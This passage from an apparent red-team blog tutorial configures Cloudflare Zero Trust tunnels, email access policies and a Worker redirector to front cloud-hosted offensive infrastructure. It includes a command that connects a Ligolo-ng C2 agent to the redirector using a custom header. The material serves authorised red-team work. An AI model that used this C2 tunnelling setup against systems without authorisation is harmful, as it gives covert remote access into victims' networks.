To do this add another policy called ‘Email’ and add an ‘Include’ email selector at the bottom and enter a specific email address or if you are working in a team you may want to allow all email addresses that end in mycompany.com for example.



What happens then is, when you visit the files tunnel URL directly (https://files.yourdomain.com) therefore bypassing the IP checks of the Worker redirector you can still access it and you will be presented with this webpage as shown:



You can then enter your email address of [john.doe@mycompany.com](mailto:john.doe@mycompany.com) and if the email is valid as per the Policy, you will be emailed a code to get access through the tunnel.



You can then access your files like this via the browser for example which is quite useful.



At the end of this config process, you should now have a bunch of applications pointing to your tunnels as shown, kinda acting like gatekeepers to them via Policies, hence the zero-trust aspect:



So, if you are still with me that is now all we need to access our cloud infrastructure via Cloudflare. Just to summarise, this is now how it all becomes operational:

1. We update Cloudflare as I have shown to expect our custom header values.
2. We update Cloudflare to expect a custom IP should we want to grab files from a specific IP.
3. We can generate a C2\\Ligolo agent with a custom header. Therefore, with the branched websockets version of Ligolo-ng as an example you can do the following:`ligolosockets.exe -connect https://redirector.myname.workers.dev:443 -ua MY-LIGOLO`
4. We send all of our requests to the Worker redirector URL and not to the tunnels directly as the Worker will add the zero trust header values required to enter the tunnels. Accessing them directly will no longer work except for the email login to our file server.
5. The worker passes the request to the app sitting in front of the tunnels which then checks for the service auth token to make sure it matches.
6. If the service auth token matches, the request is directed to that specific tunnel. This then flows into the internal URL of our Cloud VM (which is specified in the tunnel config) to provide us with our connectivity.

The above Cloudflare configuration coupled with Azure snapshots and Tmux Resurrect make for a really nice combination in regards swiftly bringing up your red team infrastructure. We hope that you found this useful, and we feel that it is worth trying this setup out for yourself and your team if you want to speed up your infrastructure creation.
